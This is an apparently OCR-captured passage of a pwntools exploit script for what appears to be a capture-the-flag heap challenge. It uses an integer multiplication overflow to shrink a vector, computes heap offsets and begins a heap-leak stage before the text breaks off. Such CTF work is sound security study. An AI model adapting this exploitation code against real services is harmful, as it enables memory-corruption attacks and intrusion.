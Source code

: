 ```python  
if custom_libc:  
   libc = ELF(custom_libc)

def start(argv=[]):  
   '''Start the exploit against the target.'''  
   if args.GDB:  
       return gdb.debug([exe_file] + argv,  
                        gdbscript=gdbscript)  
   elif args.REMOTE:  
       return remote(host, port)  
   else:  
       return process([exe_file] + argv)

# Specify your GDB script here for debugging  
# GDB will be launched if the exploit is run via e.g.  
# ./exploit.py GDB  
gdbscript = '''  
'''

# ===========================================================  
#                     EXPLOIT GOES HERE  
# ===========================================================

def get(idx):  
   io.recvuntil('> ')  
   io.sendline('1')  
   io.sendline(str(idx))  
   io.recvuntil('vec.get(idx) -> ')  
   data = io.recvline()  
   return data[:-1]

def set(idx, data, check=True):  
   io.recvuntil('> ')  
   io.sendline('2')  
   io.sendline(str(idx))  
   io.sendline(data)  
   if check:  
       io.recvuntil('vec.set(idx, data) -> ')  
       data = io.recvline()  
       assert int(data.decode().strip()) == 0

def delete():  
   io.recvuntil('> ')  
   io.sendline('3')  
   io.recvline()

io = start()  
io.recvuntil('Name: ')  
io.sendline('H4x0r')  
io.recvuntil('n =')  
io.sendline(str(1 << 29 | 4))  # Multiplication overflows and we get a vector of size 4

def get_idx(offset):  
   return (offset - 0x2a8) // 8  # elements[0] is at heap_base + 0x2a8

try:  
   # -------------------------------- #  
   # --         Heap leak          -- #  
   # -------------------------------- #

   # Allocate the buffer, with a pointer to itself in its content  
   set(5, p64(0) + b'a' * 0x10)

```